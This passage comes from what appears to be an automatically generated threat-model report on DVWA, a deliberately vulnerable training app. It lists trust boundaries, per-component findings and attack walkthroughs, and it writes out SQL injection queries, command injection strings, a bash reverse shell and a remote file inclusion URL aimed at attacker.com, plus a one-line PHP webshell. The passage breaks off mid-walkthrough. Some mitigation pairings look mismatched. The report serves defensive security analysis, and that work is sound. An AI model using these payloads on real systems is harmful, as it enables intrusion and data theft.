<tr><td style="white-space:nowrap"><a id="tb-1"></a>tb-1</td><td style="overflow-wrap:break-word"><strong>external → web-application</strong><br/>Control: <code>dvwaPageStartup()</code> authenticated session check · Also covers: rest-api</td><td>🌐 <strong>External</strong></td><td style="overflow-wrap:break-word">network</td><td style="overflow-wrap:break-word">Every route requiring authentication calls dvwaPageStartup(['authenticated']) before processing user input.<br/>Validation: <strong>broken</strong> · 8 related · <a href="#66-input-boundary-validation-controls">§6.6</a><br/>Authentication: <strong>broken</strong> · 2 related · <a href="#62-identity-and-authentication-controls">§6.2</a><br/>Authorization: <strong>broken</strong> · <a href="#64-authorization-controls">§6.4</a></td><td style="overflow-wrap:break-word"><em>Validation</em><br/>🔴 <a href="#f-001">F-001</a><br/><em>Authentication</em><br/>🔴 <a href="#f-007">F-007</a><br/>🔴 <a href="#f-008">F-008</a><br/>🟠 <a href="#f-009">F-009</a><br/>🟠 <a href="#f-010">F-010</a><br/>🔴 <a href="#f-016">F-016</a><br/>🔴 <a href="#f-037">F-037</a><br/><em>Authorization</em><br/>🟠 <a href="#f-019">F-019</a><br/>🔴 <a href="#f-036">F-036</a></td></tr>
<tr><td style="white-space:nowrap"><a id="tb-2"></a>tb-2</td><td style="overflow-wrap:break-word"><strong>external → ci-cd-pipeline</strong><br/>Control: GitHub repository push permissions</td><td>🌐 <strong>External</strong></td><td style="overflow-wrap:break-word">build pipeline · operator</td><td style="overflow-wrap:break-word">Only GitHub-authenticated identities with write access to master can push commits that trigger the build workflow.<br/>Validation: <strong>broken</strong> · 2 related · <a href="#66-input-boundary-validation-controls">§6.6</a><br/>Authentication: in doubt · 3 related · <a href="#62-identity-and-authentication-controls">§6.2</a><br/>Authorization: <strong>broken</strong> · 2 related · <a href="#64-authorization-controls">§6.4</a></td><td style="overflow-wrap:break-word"><em>Validation</em><br/>🟠 <a href="#f-014">F-014</a><br/><em>Authorization</em><br/>🟠 <a href="#f-034">F-034</a></td></tr>
<tr><td style="white-space:nowrap"><a id="tb-3"></a>tb-3</td><td style="overflow-wrap:break-word"><strong>web-application → database</strong><br/>Control: none identified</td><td>🔒 <strong>Internal</strong></td><td style="overflow-wrap:break-word">network</td><td style="overflow-wrap:break-word">Every query carrying user-controlled input reaches the database through parameterized binding rather than string interpolation.<br/>Query construction: <strong>broken</strong> · <a href="#65-query-construction-and-data-access-controls">§6.5</a></td><td style="overflow-wrap:break-word"><em>Query construction</em><br/>🔴 <a href="#f-003">F-003</a><br/>🟠 <a href="#f-015">F-015</a></td></tr>
<tr><td style="white-space:nowrap"><a id="tb-4"></a>tb-4</td><td style="overflow-wrap:break-word"><strong>ci-cd-pipeline → external</strong><br/>Control: none identified</td><td>↗ <strong>Egress</strong></td><td style="overflow-wrap:break-word">build pipeline · operator</td><td style="overflow-wrap:break-word">The container image pushed to <code>ghcr.io</code> contains only build artifacts derived from the verified source checkout.<br/>Egress content: <strong>broken</strong><br/>Egress destination: <em>not examined</em> · <a href="#610-file-parser-and-outbound-request-controls">§6.10</a><br/>Response trust: <em>not examined</em></td><td style="overflow-wrap:break-word"><em>Egress content</em><br/>🟡 <a href="#f-048">F-048</a></td></tr>
</tbody>
</table>

_Exposure, most exposed first: ⚠ Review (endpoints unresolved) · 🌐 External (reached from outside the model) · ◐ Unverified (crossing not confirmed) · 🔒 Internal (both ends modelled) · ↗ Egress (reaches outside the model)._

_Kind - the crossing mechanism (build pipeline, in-process, network), then after `·` what changes across it: data-origin, identity, operator, privilege, tenant. Shown alone, nothing changes._

_Conditions - **inbound**: validation, authentication, authorization · **outbound**: egress content, egress destination, response trust (replies are untrusted input) · **internal**: query construction (data never becomes program text), authentication, authorization._

_Verdict per condition - **broken**: a linked finding proves the gap · in doubt: related findings, none linked here · not examined: nothing bears on it. `N related` counts further findings on the same condition. Linked findings sit under the condition they break, or under _Unattributed_. A link raises effective severity only at a confirmed internet ingress; raw risk never changes._

_Identical on every row, so stated once here instead of in a column: source `detected` (derived from inspected repository evidence); confidence `confirmed`; status `resolved`. Any row that deviates is shown in the table._

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with DVWA from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).



*Trust boundaries not named above: web-application → database (tb-3), ci-cd-pipeline → external (tb-4) - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** Every actor in the context interacts with DVWA through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



*Trust boundaries not drawn above: web-application → database (tb-3), ci-cd-pipeline → external (tb-4) - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** The system decomposes into 0 client, 3 application and 1 data unit(s); DVWA PHP Web Application carries the most Critical findings (5) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Browser code runs on the user's device, so the client column is part of the untrusted zone, not a zone of its own - trust changes only where traffic enters the Application tier. Solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).



*Trust boundaries crossed by the `==>` edges above: external → web-application (tb-1), external → ci-cd-pipeline (tb-2) - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** DVWA PHP Web Application concentrates the most findings (29 of 58 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats | Scope |
|----|----------------------|-----------|--------------------|------------------------------------------------|--------|
| <a id="c-01"></a><a id="web-application"></a><span style="white-space:nowrap">C-01</span> | DVWA PHP Web Application | application | `login.php`<br/>`logout.php`<br/>`setup.php`<br/>`index.php`<br/>`dvwa/**` | 🔴 [F-002](#f-002) — OS Command Injection (`low.php:10`)<br/>🔴 [F-003](#f-003) — SQL Injection (`low.php:10`)<br/>🔴 [F-004](#f-004) — Local and Remote File Inclusion (`index.php:36`)<br/>🔴 [F-005](#f-005) — Unrestricted File Upload to Web-Accessible Directory (`low.php:9`)<br/>🟠 [F-009](#f-009) — Authentication Bypass via `DISABLE_AUTHENTICATION` Flag (`dvwaPage.inc.php:149`)<br/>🟠 [F-010](#f-010) — Session Fixation (`dvwaPage.inc.php:102`)<br/>🔴 [F-013](#f-013) — SQL Injection (`MySQL.php:37`)<br/>🔴 [F-017](#f-017) — Cross-Site Scripting (XSS) (`low.php:16`)<br/>🟠 [F-018](#f-018) — CSRF on Password Change via GET (`low.php:3`)<br/>🟠 [F-019](#f-019) — Client-Controlled Security Level Bypasses All Module Protections (`dvwaPage.inc.php:204`)<br/>🟠 [F-028](#f-028) — Database Error Disclosure in Authentication Path (`login.php:40`)<br/>🟠 [F-029](#f-029) — Session Cookie Missing HttpOnly and Secure Flags at Non-Impossible Levels (`dvwaPage.inc.php:62`)<br/>🟠 [F-030](#f-030) — Missing HTTP Security Headers Across All Responses (`dvwaPage.inc.php:385`)<br/>🟠 [F-033](#f-033) — No Rate Limiting or Account Lockout on Login Endpoint (`login.php:10`)<br/>🔴 [F-037](#f-037) — Unauthenticated Database Setup and Reset Endpoint (`setup.php:6`)<br/>🟠 [F-038](#f-038) — MD5 Password Hashing Without Salt (`login.php:27`)<br/>🟡 [F-039](#f-039) — Open Redirect (`low.php:4`)<br/>🟡 [F-040](#f-040) — Broken hash primitive PHP `dvwa/includes/dvwaPage.inc.php:651` (`MD5/SHA-1`) (`dvwaPage.inc.php:651`)<br/>🟡 [F-041](#f-041) — Broken hash primitive PHP (`impossible.php:14`)<br/>🟡 [F-042](#f-042) — Broken hash primitive PHP (`impossible.php:19`)<br/>🟡 [F-043](#f-043) — Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:15` (SHA-1) (`impossible.php:15`)<br/>🟡 [F-044](#f-044) — Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:29` (SHA-1) (`impossible.php:29`)<br/>🟡 [F-045](#f-045) — Broken hash primitive PHP `vulnerabilities/csrf/test_credentials.php:19` (SHA-1) (`test_credentials.php:19`)<br/>🟡 [F-046](#f-046) — Broken hash primitive PHP `vulnerabilities/javascript/index.php:43` (`MD5/SHA-1`) (`index.php:43`)<br/>🟡 [F-047](#f-047) — Broken hash primitive PHP `vulnerabilities/javascript/source/low.php:18` (SHA-1) (`low.php:18`)<br/>🟡 [F-050](#f-050) — Missing Security Event Audit Logging (`login.php:43`)<br/>🟡 [F-056](#f-056) — Predictable Sequential Session Identifier (`low.php:9`)<br/>🟠 [F-060](#f-060) — Data disclosure through cleartext transport (`about.php:28`)<br/>🔴 [F-061](#f-061) — User-controlled input reaches a server-side execution sink (`low.php:14`) | Analyzed |
| <a id="c-02"></a><a id="rest-api"></a><span style="white-space:nowrap">C-02</span> | DVWA REST API (Slim + Swagger) | application | `vulnerabilities/api/**` | 🔴 [F-001](#f-001) — OS Command Injection (`HealthController.php:88`)<br/>🔴 [F-007](#f-007) — Hardcoded Cryptographic Key (`Login.php:10`)<br/>🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials (`LoginController.php:60`)<br/>🟠 [F-012](#f-012) — OS Command Injection (`HealthController.php:88`)<br/>🔴 [F-016](#f-016) — Missing Authentication on User CRUD Endpoints (`UserController.php:265`)<br/>🟠 [F-020](#f-020) — Missing Security Event Audit Logging (`LoginController.php:75`)<br/>🟠 [F-027](#f-027) — Password Hash Exposure via v1 User API (`User.php:44`)<br/>🟠 [F-032](#f-032) — Missing Rate Limiting on Authentication Endpoints (`index.php:39`)<br/>🔴 [F-036](#f-036) — Unauthenticated User Privilege Level Manipulation (`UserController.php:225`)<br/>🟡 [F-054](#f-054) — Unauthenticated Swagger UI and OpenAPI Specification Exposure (`gen_openapi.php:4`)<br/>🟡 [F-055](#f-055) — Overly Permissive CORS Policy (`index.php:11`)<br/>🟠 [F-059](#f-059) — Cross-origin request abuse through permissive CORS (`gen_openapi.php:6`) | Analyzed |
| <a id="c-03"></a><a id="database"></a><span style="white-space:nowrap">C-03</span> | MariaDB / MySQL Database | data | `database/**`<br/>`config/**` | 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions (`bac_setup.sql:27`)<br/>🟠 [F-025](#f-025) — Cleartext Passwords in SQLite User Seed (`create_sqlite_db.sql:22`)<br/>🟠 [F-026](#f-026) — Unsalted MD5 Hashing Used for User Passwords (`create_postgresql_db.sql:2`)<br/>🔴 [F-031](#f-031) — Hardcoded Default Database Password in Repository (`config.inc.php.dist:21`) | Analyzed |
| <a id="c-04"></a><a id="ci-cd-pipeline"></a><span style="white-space:nowrap">C-04</span> | GitHub Actions CI/CD Pipeline | application | `.github/**`<br/>`Dockerfile`<br/>`compose.yml` | 🔴 [F-006](#f-006) — Hardcoded Database Credentials in compose\.yml Enable Unauthenticated Access (`compose.yml:31`)<br/>🟠 [F-014](#f-014) — Unpinned GitHub Actions allow supply-chain code injection (.github/workflows) (`docker-image.yml:13`)<br/>🟠 [F-021](#f-021) — GitHub Actions workflow-level permissions block (`docker-image.yml:1`)<br/>🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA (`docker-image.yml:16`)<br/>🟠 [F-023](#f-023) — Dockerfile base image must be digest-pinned (`Dockerfile:1`)<br/>🟠 [F-024](#f-024) — `Package-lock.json` present and committed (`A:0`)<br/>🟠 [F-034](#f-034) — Write-all `GITHUB_TOKEN` inherited by all workflows no permissions block (`shiftleft-analysis.yml:27`)<br/>🔴 [F-035](#f-035) — Known Root Password 'dvwa' Enables Full DB Admin Access (`compose.yml:31`)<br/>🟡 [F-048](#f-048) — Docker image pushed without signing or SLSA provenance (`docker-image.yml:41`)<br/>🟡 [F-049](#f-049) — No MySQL Binary Logging or Immutable Audit Trail Configured in Database Layer (`compose.yml:29`)<br/>🟡 [F-051](#f-051) — Dockerfile USER directive (non-root) (`Dockerfile:1`)<br/>🔴 [F-052](#f-052) — Container image signing via cosign or attest-build-provenance (`docker-image.yml:1`)<br/>🟡 [F-053](#f-053) — `GITHUB_TOKEN` scope minimization (`docker-image.yml:1`) | Screened |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** `-->` synchronous request/response (REST, HTTPS, gRPC) · `==>` crosses an untrusted trust boundary (security-critical) · **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. How weaknesses combine toward the worst-case goal is in the [Critical Attack Tree](#critical-attack-tree); full per-finding context (severity rationale, assets, detection signals) is in the [§8 Findings Register](#8-findings-register).

### 3.1 SQL Injection in Low

**Source:** 🔴 [F-003](#f-003) — `vulnerabilities/sqli/source/low.php:10`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. An attacker authenticates to DVWA, sets the `security` cookie to `low`, and navigates to `/vulnerabilities/sqli/?id=1&Submit=Submit`.
2. The attacker injects `1' UNION SELECT table_name, column_name FROM information_schema.columns-- -` to enumerate all table and column names from the DBMS.
3. The attacker extracts all rows from the `users` table with `1' UNION SELECT user, pass**** (8 chars) FROM users-- -`, receiving usernames and `MD5` hashes in the HTML response.
4. The attacker cracks the unsalted `MD5` hashes offline using a pre-computed rainbow table to recover plaintext pass**** (8 chars)s.

**Sequence Diagram**



**Key takeaway:** Until ● [M-003](#m-003) (Use parameterized database queries) lands, 🔴 [F-003](#f-003) — SQL Injection (`vulnerabilities/sqli/source/low.php:10`) is exploitable at `vulnerabilities/sqli/source/low.php:10` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-003](#m-003) (Use parameterized database queries)

### 3.2 OS Command Injection in Health Controller

**Source:** 🔴 [F-001](#f-001) — `vulnerabilities/api/src/HealthController.php:88`

Severity **Critical** ([CWE-78](https://cwe.mitre.org/data/definitions/78.html)). STRIDE: Tampering. See [§8 F-001](#f-001) for the full register row.

**Attack Steps**

1. An attacker sends POST `/api/v2/health/connectivity` with JSON `{"target": "127.0.0.1; id"}` - no authentication is requ**** (8 chars).
2. The server builds the string "ping -c 4 `127.0.0.1`; id" and passes it to `exec()`; the shell interprets the semicolon separator.
3. The attacker reads the process identity from the response and replaces `id` with commands to read `/etc/passwd`, establish a reverse shell, or exfiltrate data.

**Sequence Diagram**



**Key takeaway:** Until ● [M-001](#m-001) (Centralized input validation and output encoding layer) lands, 🔴 [F-001](#f-001) — OS Command Injection (`vulnerabilities/api/src/HealthController.php:88`) is exploitable at `vulnerabilities/api/src/HealthController.php:88` (Critical-severity, [CWE-78](https://cwe.mitre.org/data/definitions/78.html)).

**Defense in Depth**

- Primary mitigation: ● [M-001](#m-001) (Centralized input validation and output encoding layer)

### 3.3 OS Command Injection in Low

**Source:** 🔴 [F-002](#f-002) — `vulnerabilities/exec/source/low.php:10`

Severity **Critical** ([CWE-78](https://cwe.mitre.org/data/definitions/78.html)). STRIDE: Tampering. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. An attacker authenticates, sets `security=low`, and POSTs to `/vulnerabilities/exec/` with `ip=127.0.0.1; cat /etc/passwd`.
2. The server executes `ping  -c 4 127.0.0.1; cat /etc/passwd` via `shell_exec()` and returns the file contents in the response body.
3. The attacker replaces the payload with a reverse shell (`; bash -i >& /dev/tcp/attacker.com/4444 0>&1`) to establish persistent OS-level access as the web server user.

**Sequence Diagram**



**Key takeaway:** Until ◕ [M-002](#m-002) (Establish automated dependency scanning and update SLA) lands, 🔴 [F-002](#f-002) — OS Command Injection (`vulnerabilities/exec/source/low.php:10`) is exploitable at `vulnerabilities/exec/source/low.php:10` (Critical-severity, [CWE-78](https://cwe.mitre.org/data/definitions/78.html)).

**Defense in Depth**

- Primary mitigation: ◕ [M-002](#m-002) (Establish automated dependency scanning and update SLA)

### 3.4 Local and Remote File Inclusion in DVWA PHP Web Application

**Source:** 🔴 [F-004](#f-004) — `vulnerabilities/fi/index.php:36`

Severity **Critical** ([CWE-98](https://cwe.mitre.org/data/definitions/98.html)). STRIDE: Tampering. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. An attacker sets `security=low` and requests `/vulnerabilities/fi/?page=../../../../etc/passwd` to read the server's `/etc/passwd` via path traversal.
2. The PHP engine executes `include('../../../../etc/passwd')` at `fi/index.php:36`, and the file contents appear in the page body.
3. If `allow_url_include=On`, the attacker substitutes a remote URL (`page=http://attacker.com/shell.php`) to include and execute an arbitrary PHP webshell.

**Sequence Diagram**


**Key takeaway:** Until ● [M-004](#m-004) (Restrict file inclusion to an explicit allowlist of permitte) lands, 🔴 [F-004](#f-004) — Local and Remote File Inclusion (`vulnerabilities/fi/index.php:36`) is exploitable at `vulnerabilities/fi/index.php:36` (Critical-severity, [CWE-98](https://cwe.mitre.org/data/definitions/98.html)).

**Defense in Depth**

- Primary mitigation: ● [M-004](#m-004) (Restrict file inclusion to an explicit allowlist of permitted page filenames)

### 3.5 Unrestricted File Upload to Web-Accessible Directory in Low

**Source:** 🔴 [F-005](#f-005) — `vulnerabilities/upload/source/low.php:9`

Severity **Critical** ([CWE-434](https://cwe.mitre.org/data/definitions/434.html)). STRIDE: Tampering. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. An attacker POSTs a multipart request to `/vulnerabilities/upload/` with a file named `shell.php` containing `<?php system($_GET['cmd']); ?>`.
